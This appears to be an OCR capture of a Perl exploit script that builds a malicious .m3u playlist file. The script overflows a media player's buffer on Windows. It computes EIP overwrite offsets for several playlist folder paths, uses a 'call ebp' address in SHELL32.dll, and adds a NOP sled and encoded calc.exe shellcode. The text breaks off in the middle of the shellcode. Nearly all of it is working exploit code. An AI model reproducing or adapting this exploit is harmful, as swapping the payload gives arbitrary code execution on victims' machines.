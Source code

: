     # if the m3u file is saved in root dir (c:\, z:\, etc) eip offset = 26121
    # we can use that value to calculate other relative offsets based on file path length
     
    my @offsets = ( 'C:\Documents and Settings\Administrator\My Documents\My Music\My Playlists\\', # offset at 26049 
     'C:\Documents and Settings\All Users\Documents\My Music\My Playlists\\', # offset at 26056
     'C:\Documents and Settings\Administrator\My Documents\My Music\\', # offset at 26062
     'C:\Documents and Settings\All Users\Documents\My Music\\', # offset at 26069 
     'C:\Documents and Settings\Administrator\Desktop\\', # offset at 26076
     'C:\Documents and Settings\All Users\Desktop\\', # offset at 26080
     'C:\\'); # offset at 26121
     
    my $eip = pack('V', 0x7c9f38f6); # call ebp C:\Windows\System32\SHELL32.dll 
     
    $i = 0;
    foreach (@offsets) {
       $curr_offset = 26121 - (length($_)) + 3; # +3 for shared "c:\"
       $prev_offset = 26121 - (length($offsets[$i-1])) + 3; 
     
       if ($i eq 0){   
      # if it's the first offset build the junk buffer from 0
      $junk = "\x41" x $curr_offset; 
      # append the eip overwrite to the first offset
      $offset = $junk.$eip  
       } else {
      # build a junk buffer relative to the last offset
      $junk = "\x41" x (($curr_offset - $prev_offset) - 4);
      # append new junk buffer + eip to the previously constructed offset
      $offset = $offset.$junk.$eip;
       } 
     
       $i = $i + 1; # increment index counter
     
    }
     
    my $nops = "\x90" x 21400; # offset to shellcode at call ebp
     
    # Calc.exe payload [size 227]
    # msfpayload windows/exec CMD=calc.exe R | 
    # msfencode -e x86/shikata_ga_nai -c 1 -b '\x00\x0a\x0d\xff'
    my $shell = "\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9" .
    "\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92" .
    "\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84" .
    "\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e" .
    "\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1" .
    "\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27" .
    "\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb" .
    "\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b" .
    "\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2" .
